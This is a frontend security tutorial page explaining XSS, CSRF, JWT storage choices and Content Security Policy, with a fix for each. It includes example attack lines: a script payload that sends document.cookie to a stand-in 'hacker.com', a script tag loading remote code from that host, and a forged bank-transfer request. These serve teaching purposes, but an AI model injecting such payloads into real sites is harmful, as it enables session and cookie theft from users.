

# 🔒 Frontend Security

> **Series:** Clean Code › Frontend Architecture · **Level:** Advanced · **Read Time:** ~10 min

---

## 📖 Table of Contents

- [1. XSS (Cross-Site Scripting)](#1-xss-cross-site-scripting)
- [2. CSRF (Cross-Site Request Forgery)](#2-csrf-cross-site-request-forgery)
- [3. Token Storage (Cookies vs LocalStorage)](#3-token-storage-cookies-vs-localstorage)
- [4. Content Security Policy (CSP)](#4-content-security-policy-csp)

---




## 1. XSS (Cross-Site Scripting)

**The Attack:** A hacker types `<script>fetch('hacker.com?cookie=' + document.cookie)</script>` into a blog comment section and clicks Submit. 
If your React application renders that comment directly onto the screen without sanitizing it, the browser will execute the script, steal the cookies of everyone viewing the page, and send them to the hacker.

**The Fix:** 
Modern frameworks (React, Vue, Angular) automatically sanitize inputs. If you output `{comment}` in React, it converts the `<script>` tag into harmless text (`&lt;script&gt;`).
*However*, if you use `dangerouslySetInnerHTML` in React, or `v-html` in Vue, you completely disable this protection. **Never render raw HTML from a user.**

---

## 2. CSRF (Cross-Site Request Forgery)

**The Attack:** You log into your bank. You then open a new tab and visit `evil-hacker.com`. The hacker's website contains a hidden form that automatically submits a POST request to `yourbank.com/transfer?amount=1000&to=hacker`. 
Because your browser automatically attaches your bank Cookies to the request, the bank thinks *you* authorized the transfer!

**The Fix:** 
1. The backend issues an Anti-CSRF Token when the page loads. The frontend must attach this token to every POST request.
2. Modern fix: Set your authentication cookies to `SameSite=Strict`. This tells the browser to *never* send cookies if the request originated from a different domain.

---

## 3. Token Storage (Cookies vs LocalStorage)

When a user logs in, the backend sends you a JWT (JSON Web Token). Where do you store it in the browser?

### Option A: LocalStorage (Dangerous)
```javascript
localStorage.setItem('token', jwt);
```
- **The Danger:** Any JavaScript running on your page can read `localStorage`. If you install a malicious NPM package, or suffer an XSS attack, the hacker writes `localStorage.getItem('token')` and permanently steals the user's identity.

### Option B: HttpOnly Cookies (Secure)
The backend sends the JWT in a cookie with the `HttpOnly` flag set to true.
- **The Fix:** The browser stores the cookie, but strictly forbids JavaScript from reading it. `document.cookie` will return empty. When you make an API call, the browser automatically attaches the cookie. An XSS hacker cannot steal it because they literally cannot access it.

---

## 4. Content Security Policy (CSP)

A **CSP** is a strict set of rules sent by your server in the HTTP Headers. It tells the browser exactly what it is allowed to execute.

```http
Content-Security-Policy: default-src 'self'; img-src https://*
```

This specific rule tells the browser: *"Only execute JavaScript files that come from my own domain (`'self'`). Block all scripts from third-party domains. But you are allowed to load images from anywhere."*

If an XSS hacker successfully injects a `<script src="http://hacker.com/evil.js">` tag into your page, the browser will look at the CSP, realize `hacker.com` is not `'self'`, and flat-out refuse to run the script. CSP is your ultimate safety net against XSS.

## 🔗 External References & Required Reading
- **OWASP:** [Cross Site Scripting (XSS) Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- **OWASP:** [Cross-Site Request Forgery (CSRF)](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

---

*← [Performance Optimization](./05-performance-optimization.md) · Next: [Network Protocols](./07-network-protocols.md) →*

## Related

- [Design Patterns](../../design-patterns/README.md)
- [Software Architecture Patterns](../../software-architecture/README.md)
- [Observability & Monitoring](../../../devops/observability/README.md)
- [Build Tools & CI/CD](../../../devops/cicd-pipelines/README.md)
